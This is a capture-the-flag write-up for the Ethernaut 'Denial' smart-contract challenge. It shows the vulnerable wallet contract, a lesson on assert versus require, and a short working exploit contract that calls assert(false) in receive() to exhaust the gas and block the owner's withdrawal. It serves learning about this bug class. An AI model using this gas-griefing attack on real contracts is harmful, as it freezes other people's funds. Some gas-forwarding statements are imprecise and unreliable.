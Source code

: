 # Writeup for Denial

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (while the contract still has funds, and the transaction is of 1M gas or less), you will win this level.

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

<details>
<summary>Click to view the source contract</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

I hope you are good at understanding contracts. If you are unable to understand the contract, then stop here and try out all the challenges on your own without going through any write-up. If there are any new things in the contract, I will explain those types of contracts.

</details>

### Key Concepts To Learn

In Solidity, we use assert and require to check certain conditions are met or not. But we need to understand the major difference between assert and require.

`assert`: This is used to check for conditions that should never occur in a correctly functioning contract. If an assert fails, it indicates a serious issue in the code, such as an internal error or a bug. It is typically used to validate invariants or to check for conditions that should always be true. Below is an example of assert.

`require`: This is used for input validation and to ensure certain conditions are met before executing further code. It can check for things like valid user inputs, sufficient funds, or conditions related to external calls. If a require statement fails, it reverts the transaction and provides an error message.

Below is an example that gives much clarity about the usage difference between `assert` and `require`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ExampleContract {
    uint256 public value;

    // Function to set the value with input validation
    function setValue(uint256 _value) public {
        // Use require to validate input
        require(_value > 0, "Value must be greater than 0");
        value = _value;
    }

    // Function to increment the value
    function incrementValue() public {
        // Use assert to check internal logic
        uint256 oldValue = value;
        value += 1;

        // Ensure that value has increased correctly
        assert(value == oldValue + 1);
    }
}

```

The major difference between `assert()` and `require()` is that if the condition in `require()` fails, it will revert all the changes made and also refund the gas offered for the transaction. But if the `assert()` fails, it will consume all the gas and revert all the state changes.

### Exploit

Now our task is to make the contract deny the transactions that call the withdraw() function.

```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    // perform a call without checking return
    // The recipient can revert, but the owner will still get their share
    partner.call{value: amountToSend}("");
    payable(owner).transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = block.timestamp;
    withdrawPartnerBalances[partner] += amountToSend;
    }
```

If we see the withdraw() function, we can observe that whenever someone calls the withdraw() function, it will send contract balance/100 to the partner as well as the owner. If we set our address as the partner, we will become the partner and it will send the ether.

```solidity
function setWithdrawPartner(address _partner) public {
    partner = _partner;
}
```

By calling the above function, we can set the partner to whatever address we pass during the function call.

If we set the partner address as EOA (Externally owned account), it won't be useful because we can't deny. We need to write an `Exploit` contract, and we need to set the Exploit contract as the partner.

Since the withdraw() function is making a low-level call during the call, it will send the entire gas to the partner. Once the partner transaction is completed, the remaining gas is returned to the withdraw() function, and the remaining gas is used to execute the next lines.

Since the withdraw() function is making a low-level call to the partner (exploit contract), in our exploit contract, if we somehow consume all the gas, then there won't be enough gas to execute the transfer() function, and it will revert the entire function call of withdraw().

When a contract makes a low-level call to another contract, there should be a `receive()` function in the called contract. In the `receive()` function, we can write whatever code we want. So if we write an `assert()` condition that will always fail, then the `assert()` will consume all the gas and revert. The below is the exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;


contract ExploitDenial{

    receive() external payable {
        assert(false);
    }
}
```

Deploy this contract and open the console and enter the following

```javascript
> await contract.setWithdrawPartner("YOUR__EXPLOIT__CONTRACT__ADDRESS")
```

Once the transaction is completed, just submit the instance.

### Key Takeaways

### Key Takeaways

The Denial contract is currently using a low-level call to send ether. However, if it were to use the `transfer()` or `send()` function instead, the exploit described above would not be possible. This is because a low-level call sends the entire gas during the call, whereas `send()` and `transfer()` only send 2300 units of gas, which is sufficient for the transfer of ether.

If the contract were to use `transfer()`, the function would only send 2300 units of gas, which is enough for transferring ether. After the transfer, there wouldn't be much room for additional operations. If we were to attempt any operations in the `receive()` function of our contract, the `transfer()` would be reverted. Although the revert would only return false, it wouldn't have any effect on the main function call.

